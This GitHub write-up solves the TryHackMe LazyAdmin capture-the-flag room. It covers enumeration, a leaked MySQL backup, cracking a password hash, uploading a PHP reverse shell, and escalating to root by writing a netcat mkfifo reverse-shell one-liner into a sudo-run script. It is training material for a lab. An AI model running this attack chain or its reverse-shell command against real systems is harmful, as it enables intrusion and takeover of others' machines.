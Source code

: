 # CTF-Write-up

## Try Hack Me - LazyAdmin

##### URL: https://tryhackme.com/room/lazyadmin

##### Created by _MrSeth6797_

![LOGO](https://user-images.githubusercontent.com/20625004/110367101-e9e80200-804f-11eb-8b4f-d78f95f0d930.PNG)

You should deploy the machine first.

Run nmap against the target machine.

```nmap <target IP>```

![nmap](https://user-images.githubusercontent.com/20625004/110367723-bc4f8880-8050-11eb-9081-b9d0124b49f7.PNG)

Port 80 web access. 

![port80](https://user-images.githubusercontent.com/20625004/110367979-13555d80-8051-11eb-8a8e-83295c572554.PNG)

Next we fire up ```gobuster``` in order to seach for paths in the web application that will help us to map the app.

We found the path ```/content/``` with some info about the CMS that is being used on the web app.

![path1](https://user-images.githubusercontent.com/20625004/110368430-b3ab8200-8051-11eb-8251-ddcd3f1c1042.PNG)

Then we use again ```gobuster``` with the new path in order to reveal other paths.

![gobuster](https://user-images.githubusercontent.com/20625004/110369032-75fb2900-8052-11eb-8dec-b4e8edfdb726.PNG)

And now we have found a login page.

![path2](https://user-images.githubusercontent.com/20625004/110368771-2c124300-8052-11eb-9ab5-f96f7eb8c8d3.PNG)

Searching for exploits we found that there is a Backup Disclosure vulnerability.

By using the below path we can see that the mysql_backup file can be downloaded.

```http://<target IP>/content/inc/mysql_backup/```

Within the file there is user and a hashed password.

![hashed](https://user-images.githubusercontent.com/20625004/110369521-2f59fe80-8053-11eb-896d-cc83706dad92.PNG)

Use an online cracking site or hashcat to reveal the right one.

Use the creds from previous step to login and navigate to the web application. Navigate to media center and upload the reverse shell ```https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php``` renaming it to something.php5, and now we have uploaded the file. 

![cms](https://user-images.githubusercontent.com/20625004/110370935-fd499c00-8054-11eb-93f2-1095f2ad08a5.PNG)


open terminal and execute nc -lnvp 4444 and the access the file you have uploaded, and now you got shell to the system.

After searching around you can found the first flag on the path /home/something/user.txt

![flag1](https://user-images.githubusercontent.com/20625004/110371811-29195180-8056-11eb-91e0-a0a6ef444808.PNG)

For the second flag we have to escalete our privileges.

```sudo -l``` reveal that we can run (‘sh’,’/etc/copy.sh’) and checking the permission of /etc/copy.sh we see we can modify that and we change the file.

![flag2_1](https://user-images.githubusercontent.com/20625004/110375247-641d8400-805a-11eb-817d-58820320dda2.PNG)

```echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your-ip> 4444" >/tmp/f > copy.sh``` 

Now running backup.pl with sudo gives us a reverse shell.

```sudo /usr/bin/perl /home/itguy/backup.pl```.

on /root/ there is the second flag.






